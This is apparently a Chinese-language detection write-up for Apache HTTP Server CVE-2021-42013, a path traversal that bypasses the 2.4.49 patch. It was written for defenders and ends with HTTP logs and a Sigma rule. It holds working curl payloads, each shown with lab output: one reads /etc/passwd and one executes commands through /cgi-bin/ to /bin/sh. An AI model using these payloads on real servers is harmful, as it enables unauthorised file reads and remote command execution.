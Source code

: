 # T1190-CVE-2021-42013-Apache HTTP Server 2.4.50路径穿越漏洞

## 0x1 来自ATT&CK的描述

使用软件，数据或命令来利用面向Internet的计算机系统或程序中的弱点，从而导致意外或无法预期的行为。系统的弱点可能是错误、故障或设计漏洞。这些应用程序通常是网站，但是可以包括数据库（例如SQL），标准服务（例如SMB 或SSH）以及具有Internet可访问开放的任何其他应用程序，例如Web服务器和相关服务。根据所利用的缺陷，这可能包括“利用防御防卫”。

如果应用程序托管在基于云的基础架构上，则对其进行利用可能会导致基础实际应用受到损害。这可以使攻击者获得访问云API或利用弱身份和访问管理策略的路径。

对于网站和数据库，OWASP排名前10位和CWE排名前25位突出了最常见的基于Web的漏洞。

## 0x2 测试案例

Apache HTTP Server是Apache基金会开源的一款流行的HTTP服务器。Apache官方在2.4.50版本中对2.4.49版本中出现的目录穿越漏洞CVE-2021-41773进行了修复，但这个修复是不完整的，CVE-2021-42013是对补丁的绕过。

攻击者利用这个漏洞，可以读取位于Apache服务器Web目录以外的其他文件，或者读取Web目录中的脚本文件源码，或者在开启了cgi或cgid的服务器上执行任意命令。

这个漏洞可以影响Apache HTTP Server 2.4.49以及2.4.50两个版本。

## 0x3 漏洞详情

使用CVE-2021-41773中的Payload已经无法成功利用漏洞了，说明2.4.50进行了修复。

但我们可以使用.%%32%65进行绕过（注意其中的/icons/必须是一个存在且可访问的目录）：

```yml
curl -v --path-as-is http://your-ip:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
```

可见，成功读取到/etc/passwd：

```yml
curl -v --path-as-is http://10.211.55.10:8080/icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> 
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 05:33:12 GMT
< Server: Apache/2.4.50 (Unix)
< Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
< ETag: "39e-5cceec7356000"
< Accept-Ranges: bytes
< Content-Length: 926
< 
root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

在服务端开启了cgi或cgid这两个mod的情况下，这个路径穿越漏洞将可以执行任意命令：

```yml
curl -v --data "echo;id" 'http://your-ip:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
```

```yml
curl -v --data "echo;id" 'http://10.211.55.10:8080/cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh'
*   Trying 10.211.55.10...
* TCP_NODELAY set
* Connected to 10.211.55.10 (10.211.55.10) port 8080 (#0)
> POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
> Host: 10.211.55.10:8080
> User-Agent: curl/7.64.1
> Accept: */*
> Content-Length: 7
> Content-Type: application/x-www-form-urlencoded
> 
* upload completely sent off: 7 out of 7 bytes
< HTTP/1.1 200 OK
< Date: Sun, 10 Oct 2021 05:34:09 GMT
< Server: Apache/2.4.50 (Unix)
< Transfer-Encoding: chunked
< 
uid=1(daemon) gid=1(daemon) groups=1(daemon)
* Connection #0 to host 10.211.55.10 left intact
* Closing connection 0
```

## 0x4 检测日志

HTTP.log

```http.log
GET /icons/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/etc/passwd HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*

HTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 05:39:09 GMT
Server: Apache/2.4.50 (Unix)
Last-Modified: Mon, 27 Sep 2021 00:00:00 GMT
ETag: "39e-5cceec7356000"
Accept-Ranges: bytes
Content-Length: 926

root:x:0:0:root:/root:/bin/bash
daemon:x:1:1:daemon:/usr/sbin:/usr/sbin/nologin
bin:x:2:2:bin:/bin:/usr/sbin/nologin
sys:x:3:3:sys:/dev:/usr/sbin/nologin
sync:x:4:65534:sync:/bin:/bin/sync
games:x:5:60:games:/usr/games:/usr/sbin/nologin
man:x:6:12:man:/var/cache/man:/usr/sbin/nologin
lp:x:7:7:lp:/var/spool/lpd:/usr/sbin/nologin
mail:x:8:8:mail:/var/mail:/usr/sbin/nologin
news:x:9:9:news:/var/spool/news:/usr/sbin/nologin
uucp:x:10:10:uucp:/var/spool/uucp:/usr/sbin/nologin
proxy:x:13:13:proxy:/bin:/usr/sbin/nologin
www-data:x:33:33:www-data:/var/www:/usr/sbin/nologin
backup:x:34:34:backup:/var/backups:/usr/sbin/nologin
list:x:38:38:Mailing List Manager:/var/list:/usr/sbin/nologin
irc:x:39:39:ircd:/var/run/ircd:/usr/sbin/nologin
gnats:x:41:41:Gnats Bug-Reporting System (admin):/var/lib/gnats:/usr/sbin/nologin
nobody:x:65534:65534:nobody:/nonexistent:/usr/sbin/nologin
_apt:x:100:65534::/nonexistent:/usr/sbin/nologin
```

```http.log
POST /cgi-bin/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/bin/sh HTTP/1.1
Host: 10.211.55.10:8080
User-Agent: curl/7.64.1
Accept: */*
Content-Length: 7
Content-Type: application/x-www-form-urlencoded

echo;idHTTP/1.1 200 OK
Date: Sun, 10 Oct 2021 05:39:11 GMT
Server: Apache/2.4.50 (Unix)
Transfer-Encoding: chunked

2d
uid=1(daemon) gid=1(daemon) groups=1(daemon)

0
```

## 0x5 测试复现

可参考漏洞详情部分

## 0x6 检测规则/思路

### sigma规则

```yml
title: CVE-2021-42013-Apache HTTP Server 2.4.50路径穿越漏洞
status: 测试状态
description: 基于HTTP日志进行检测
references:
    - https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md
detection:
    selection:
        cs-method: 
            - 'GET' #请求方法为GET
            - 'POST' #请求方法为POST
        c-uri: '.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65/.%%32%65'
    condition: selection
fields: 
    - c-ip
    - c-dns
falsepositives: 
    - 观察返回状态码是否为200 OK。
level: high
```

也可以根据自己实际需求，编写suricata规则。

流量包下载位置:<https://pan.baidu.com/s/1m-rysxGIeMVfZNIBuaRa2Q>

提取码:0wff

### 建议

建议使用HTTP流量+安全设备(如天眼等)进行检测分析判断攻击是否成功。

## 0x7 参考推荐

MITRE-ATT&CK-T1190

<https://attack.mitre.org/techniques/T1190/>

Apache HTTP Server 2.4.50 路径穿越漏洞（CVE-2021-42013）

<https://github.com/vulhub/vulhub/blob/master/httpd/CVE-2021-42013/README.zh-cn.md>
